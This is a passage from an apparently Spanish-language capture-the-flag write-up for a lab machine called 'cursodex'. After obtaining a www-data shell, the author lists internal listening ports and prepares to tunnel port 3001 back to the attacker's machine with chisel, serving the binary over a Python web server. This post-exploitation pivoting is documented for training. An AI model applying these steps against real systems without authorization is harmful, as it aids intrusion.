 Obtenemos una consola con el usuario `www-data`.

![www-data shell](../../../assets/images/cursodex/20250922_012510_image.png)

## Movimiento lateral

Hacemos el tratamiento de la TTY para poder trabajar de forma más cómoda con nuestra shell.

Podemos observar que internamente hay varios puertos abiertos.

```bash
www-data@cursodex:/var/www/admin$ ss -ano|grep tcp|grep LISTEN
tcp   LISTEN     0      4096                                    127.0.0.1:11434                  0.0.0.0:*                           
tcp   LISTEN     0      511                                     127.0.0.1:3001                   0.0.0.0:*                           
tcp   LISTEN     0      4096                                    127.0.0.1:43831                  0.0.0.0:*                           
tcp   LISTEN     0      511                                             *:80                           *:*                           
mptcp LISTEN     0      4096                                    127.0.0.1:11434                  0.0.0.0:*                           
mptcp LISTEN     0      4096                                    127.0.0.1:43831                  0.0.0.0:*  
```

El puerto que nos interesa es el `3001`, así que utilizamos `chisel` para redirigirlo a nuestra máquina atacante.

Para ello, compartimos el binario de chisel desde nuestra máquina mediante un servidor web.

```bash
cp /usr/bin/chisel .
python3 -m http.server 80
```
